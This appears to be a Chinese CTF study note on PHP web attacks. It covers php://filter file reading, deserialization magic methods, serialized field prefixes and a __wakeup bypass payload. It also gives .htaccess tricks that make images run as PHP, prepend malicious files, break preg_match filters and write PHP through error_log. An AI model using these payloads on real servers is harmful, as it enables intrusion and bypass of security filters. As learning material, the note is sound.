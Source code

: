 # PHP积累

## php 三种写法

```
<? echo ("这是一个 PHP 语言的嵌入范例\n"); ?>
<?php echo("这是第二个 PHP 语言的嵌入范例\n"); ?>
<script language="php"> 
echo ("这是类似 JavaScript 及 VBScript 语法
的 PHP 语言嵌入范例");
</script>
<% echo ("这是类似 ASP 嵌入语法的 PHP 范例"); %>
```

php://filter简单理解：

php://filter 是php中独有的一个协议，可以作为一个中间流来处理其他流，可以进行任意文件的读取；根据名字，filter，可以很容易想到这个协议可以用来过滤一些东西；

使用不同的参数可以达到不同的目的和效果：

| 名称                      | 描述                                                         | 备注 |
| ------------------------- | ------------------------------------------------------------ | ---- |
| resource=<要过滤的数据流> | 指定了你要筛选过滤的数据流                                   | 必选 |
| read=<读链的筛选列表>     | 可以设定一个或多个过滤器名称，以管道符"\|"分割               | 可选 |
| write=<写链的筛选列表>    | 可以设定一个或多个过滤器名称，以管道符"\|“分割               | 可选 |
| <；两个链的筛选列表>      | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |      |

> Tips： read 和write 里 可以塞垃圾字符

## 反序列化魔术方法

```php
__construct()//当一个对象创建时被调用
__destruct() //当一个对象销毁时被调用
__toString() //当一个对象被当作一个字符串使用
__sleep()//在对象在被序列化之前运行
__wakeup()//将在反序列化之后立即被调用(通过序列化对象元素个数不符来绕过)
__get()//获得一个类的成员变量时调用
__set()//设置一个类的成员变量时调用
__invoke()//调用函数的方式调用一个对象时的回应方法
__call()//当调用一个对象中的不能用的方法的时候就会执行这个函数
```

## public、protected与private在序列化时的区别

protected 声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的对象实例中不可见。因此保护字段的字段名在序列化时，字段名前面会加上\0*\0的前缀。这里的 \0 表示 ASCII 码为 0 的字符(不可见字符)，而不是 \0 组合。这也许解释了，为什么如果直接在网址上，传递\0*\0username会报错，因为实际上并不是\0，只是用它来代替ASCII值为0的字符。必须用python传值才可以。

```php
<?php
class Name{
    protected $username = 'nonono';
    protected $password = 'yesyes';
    public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
    public function __wakeup(){
    	$this->username = "guests";
    }
    public function fun(){
    	echo $this->username;echo "<br>";echo $this->password;
    }
}
$a = serialize(new Name("admin",100));
echo $a;
?>
```

```
O:4:"Name":2:{s:11:"\0*\0username";s:5:"admin";s:11:"\0*\0password";i:100;}
```

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，类名和字段名前面都会加上\0的前缀。字符串长度也包括所加前缀的长度。其中 \0 字符也是计算长度的。

可以不看：
这里 表示的是声明该私有字段的类的类名，而不是被序列化的对象的类名。因为声明该私有字段的类不一定是被序列化的对象的类，而有可能是它的祖先类。字段名被作为字符串序列化时，字符串值中包括根据其可见性所加的前缀。

```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
    public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
    public function __wakeup(){
    	$this->username = "guests";
    }
    public function fun(){
    	echo $this->username;echo "<br>";echo $this->password;
    }
}
$a = serialize(new Name("admin",100));
echo $a;
?>
O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

## ``__wakeup()``方法绕过

作用：
与``__sleep()``函数相反，``__sleep()``函数，是在序序列化时被自动调用。``__wakeup()``函数，在反序列化时，被自动调用。
绕过：
当反序列化字符串，表示属性个数的值大于真实属性个数时，会跳过``__wakeup`` 函数的执行。
上面的代码，序列化后的结果为

要求：PHP5 < 5.6.25 PHP7 < 7.0.10

```
O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

其中name后面的2，代表类中有2个属性，但如果我们把2改成3，就会绕过__wakeup()函数。

```
O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

## ``.htaccess``文件利用

- 正确解析绕过
  
  ``.htaccess``中出现的无法正常解析的条目时无法生效
  - ``\``换行绕过脏字符或绕WAF
  - 利用XMP图片解析头(``#``刚好是注释符)
    
    ```
    #define width 1
    #define height 1
    ```
  - 利用wbmp文件解析头
    
    ```
    \x00\x00\x8a\x39\x8a\x39
    ```
- 增加使用php解析的文件后缀(.jpg)
  
    ```
    AddType application/x-httpd-php .jpg
    ```
- 增加使用php解析的文件
  
    ```
    <FilesMatch "<filename>">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```
- 

- **利用php_value注入php配置**

    - 在所有php前后注入恶意php文件
      
        ```
        php_value auto_prepend_file "<FileDir>"
        php_value auto_append_file "<FileDir>"
        ```

    - 利用prce参数绕过preg_match
      
        ```
        php_value pcre.backtrack_limit 0
        php_value pcre.jit 0 
        ```

        任意匹配均返回``FALSE``
        
        > https://www.php.net/manual/zh/pcre.configuration.php
    
    - 利用UTF-7编码绕过日志html编码
      
       ```
        php_value zend.multibyte 1
        php_value zend.script_encoding "UTF-7"
       ```
    - 利用inclue_path包含恶意文件

      ```
        php_value include_path "/tmp"
      ```
    - 利用``error log``写本地文件 (html编码)

        ```
        php_value error_log /tmp/fl3g.php
        php_value error_reporting 32767
        ```